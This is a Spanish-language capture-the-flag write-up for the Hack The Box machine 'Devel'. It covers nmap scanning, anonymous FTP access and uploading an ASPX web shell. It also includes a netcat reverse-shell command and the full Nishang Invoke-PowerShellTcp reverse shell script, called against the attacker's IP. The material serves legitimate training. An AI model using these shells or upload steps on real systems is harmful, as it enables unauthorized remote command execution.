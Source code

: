 # Devel

## NMAP 

```
batcat -l ruby Scan
nmap -sCV -Pn -O -A -p21,80 -oN Scan 10.129.7.194
```

![image](https://github.com/gecr07/Devel-HTB/assets/63270579/f4235216-32cf-4ccd-a556-c1ed94f370aa)


## ftp 

Necesitamos conectarnos al ftp y primero con sesiones nulas

```
ftp 10.129.8.38
user:anonymous
pass:anonymous
help
ls -la
```

Enumerando un poco

```
whatweb http://10.129.8.38
curl -I -s http://10.129.8.38
curl -I -s -X GET http://10.129.8.38

```

![image](https://github.com/gecr07/Devel-HTB/assets/63270579/dddc2d45-6951-499e-bde9-663b85777836)

Esto quiere decir que puede interpretar .aspx

## RCE

Nos damos cuenta que el ftp esta conectad con el iispor lo que vamos a hacer es subir una shell Kali tienen varias...

![image](https://github.com/gecr07/Devel-HTB/assets/63270579/6f85e96d-132a-4358-9bd1-d686098fad64)


```
sudo updatedb
locate *aspx* 
/usr/share/davtest/backdoors/aspx_cmd.aspx
/usr/share/seclists/Web-Shells/FuzzDB/cmd.aspx
```

![image](https://github.com/gecr07/Devel-HTB/assets/63270579/da9afa8e-abba-48ec-9a7f-c1b450bd775a)

![image](https://github.com/gecr07/Devel-HTB/assets/63270579/18167bd9-6a6c-4f08-b6e7-2502b237183b)

### Compartir archivos a windows

Podemos montar una carpeta compartida en Kali y acceder desde Windows para esto se va a usar impacket-smbserver:

![image](https://github.com/gecr07/Devel-HTB/assets/63270579/0241faf2-95a9-4db7-97a2-dbcef62954e1)


```
impacket-smbserver smbFolder $(pwd)

```

Desde Windows ya sea un cmd o un ps puedes usar 

```
copy \\10.10.14.90\smbFolder\archivo

```

## RCE via nc

En kali seclist tiene nc.exe


```
\\10.10.14.80\share\nc.exe -e cmd.exe 10.10.14.80 443

```

### RCE via Nishang (via Invoke-PowerShellTcp.ps1)

![image](https://github.com/gecr07/Devel-HTB/assets/63270579/c1c683b6-fb64-4ff5-990c-a081247f9564)

Entonces ponemos es linea hasta abajo del archivo con nuestra IP

```powershell

function Invoke-PowerShellTcp 
{ 
<#
.SYNOPSIS
Nishang script which can be used for Reverse or Bind interactive PowerShell from a target. 

.DESCRIPTION
This script is able to connect to a standard netcat listening on a port when using the -Reverse switch. 
Also, a standard netcat can connect to this script Bind to a specific port.

The script is derived from Powerfun written by Ben Turner & Dave Hardy

.PARAMETER IPAddress
The IP address to connect to when using the -Reverse switch.

.PARAMETER Port
The port to connect to when using the -Reverse switch. When using -Bind it is the port on which this script listens.

.EXAMPLE
PS > Invoke-PowerShellTcp -Reverse -IPAddress 192.168.254.226 -Port 4444

Above shows an example of an interactive PowerShell reverse connect shell. A netcat/powercat listener must be listening on 
the given IP and port. 

.EXAMPLE
PS > Invoke-PowerShellTcp -Bind -Port 4444

Above shows an example of an interactive PowerShell bind connect shell. Use a netcat/powercat to connect to this port. 

.EXAMPLE
PS > Invoke-PowerShellTcp -Reverse -IPAddress fe80::20c:29ff:fe9d:b983 -Port 4444

Above shows an example of an interactive PowerShell reverse connect shell over IPv6. A netcat/powercat listener must be
listening on the given IP and port. 

.LINK
http://www.labofapenetrationtester.com/2015/05/week-of-powershell-shells-day-1.html
https://github.com/nettitude/powershell/blob/master/powerfun.ps1
https://github.com/samratashok/nishang
#>      
    [CmdletBinding(DefaultParameterSetName="reverse")] Param(

        [Parameter(Position = 0, Mandatory = $true, ParameterSetName="reverse")]
        [Parameter(Position = 0, Mandatory = $false, ParameterSetName="bind")]
        [String]
        $IPAddress,

        [Parameter(Position = 1, Mandatory = $true, ParameterSetName="reverse")]
        [Parameter(Position = 1, Mandatory = $true, ParameterSetName="bind")]
        [Int]
        $Port,

        [Parameter(ParameterSetName="reverse")]
        [Switch]
        $Reverse,

        [Parameter(ParameterSetName="bind")]
        [Switch]
        $Bind

    )

    
    try 
    {
        #Connect back if the reverse switch is used.
        if ($Reverse)
        {
            $client = New-Object System.Net.Sockets.TCPClient($IPAddress,$Port)
        }

        #Bind to the provided port if Bind switch is used.
        if ($Bind)
        {
            $listener = [System.Net.Sockets.TcpListener]$Port
            $listener.start()    
            $client = $listener.AcceptTcpClient()
        } 

        $stream = $client.GetStream()
        [byte[]]$bytes = 0..65535|%{0}

        #Send back current username and computername
        $sendbytes = ([text.encoding]::ASCII).GetBytes("Windows PowerShell running as user " + $env:username + " on " + $env:computername + "`nCopyright (C) 2015 Microsoft Corporation. All rights reserved.`n`n")
        $stream.Write($sendbytes,0,$sendbytes.Length)

        #Show an interactive PowerShell prompt
        $sendbytes = ([text.encoding]::ASCII).GetBytes('PS ' + (Get-Location).Path + '>')
        $stream.Write($sendbytes,0,$sendbytes.Length)

        while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0)
        {
            $EncodedText = New-Object -TypeName System.Text.ASCIIEncoding
            $data = $EncodedText.GetString($bytes,0, $i)
            try
            {
                #Execute the command on the target.
                $sendback = (Invoke-Expression -Command $data 2>&1 | Out-String )
            }
            catch
            {
                Write-Warning "Something went wrong with execution of command on the target." 
                Write-Error $_
            }
            $sendback2  = $sendback + 'PS ' + (Get-Location).Path + '> '
            $x = ($error[0] | Out-String)
            $error.clear()
            $sendback2 = $sendback2 + $x

            #Return the results
            $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2)
            $stream.Write($sendbyte,0,$sendbyte.Length)
            $stream.Flush()  
        }
        $client.Close()
        if ($listener)
        {
            $listener.Stop()
        }
    }
    catch
    {
        Write-Warning "Something went wrong! Check if the server is reachable and you are using the correct port." 
        Write-Error $_
    }
}

Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.80 -Port 4444


```


![image](https://github.com/gecr07/Devel-HTB/assets/63270579/efb2a3c0-8208-4f8e-a911-8bb0336b5699)


















































































































































